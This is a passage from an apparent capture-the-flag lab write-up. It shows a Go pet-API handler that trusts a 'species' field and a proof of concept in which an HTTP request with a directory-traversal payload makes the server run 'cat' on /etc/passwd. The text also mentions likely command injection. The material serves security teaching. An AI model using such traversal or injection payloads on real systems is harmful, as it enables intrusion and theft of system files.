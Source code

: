When I add a new pet, it’s called as well:

    
    
    func addPet(w http.ResponseWriter, r *http.Request) {
        reqBody, _ := ioutil.ReadAll(r.Body)
        var addPet Pet
        err := json.Unmarshal(reqBody, &addPet)
        if err != nil {
            e := fmt.Sprintf("There has been an error: %+v", err)
            http.Error(w, e, http.StatusBadRequest)
            return
        }
    
        addPet.Characteristics = loadCharacter(addPet.Species)
        Pets = append(Pets, addPet)
    
        w.WriteHeader(http.StatusOK)
        fmt.Fprint(w, "Pet was added successfully")
    }
    

There’s no validation, so I can inject into the species field and likely get
both file include and command execution.

## Shell as partick

### File Read POC

I don’t really need it (because command injection gives everything file read
can give and more), but this is vulnerabile to a directory traversal / file
read vulnerability. For example, if I submit the following to the API:

    
    
    POST /api/pet HTTP/1.1
    Host: pets.devzat.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://pets.devzat.htb/
    Content-Type: text/plain;charset=UTF-8
    Origin: http://pets.devzat.htb
    Content-Length: 60
    Connection: close
    
    {"name":"0xdf","species":"../../../../../../../etc/passwd"}
    

The server will eventually run a command to get the description:

    
    
    sh -c cat characteristics/../../../../../../../etc/passwd
    

And it will show up on the page (sometimes it takes a couple refreshes if
you’re working out of Repeater):
